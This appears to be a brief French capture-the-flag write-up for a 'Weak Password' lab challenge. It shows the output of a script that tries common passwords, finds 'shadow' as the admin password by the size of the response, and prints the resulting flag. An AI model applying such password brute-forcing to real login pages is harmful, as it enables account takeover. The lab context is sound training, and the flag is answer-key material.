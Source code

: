  Weak Password

- La DB s'appelle Member_Brute_Force on comprends donc qu'il faut bruteforce le mot de passe
- Je cree un script qui bruteforce avec les 100 passwords les plus utilise
```
$> python3 script.py
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
696969
shadow
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
- On voit que le mot de passe shadow retourne une page plus grande que les autres
- On entre donc les login admin shadow et on a le flag
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
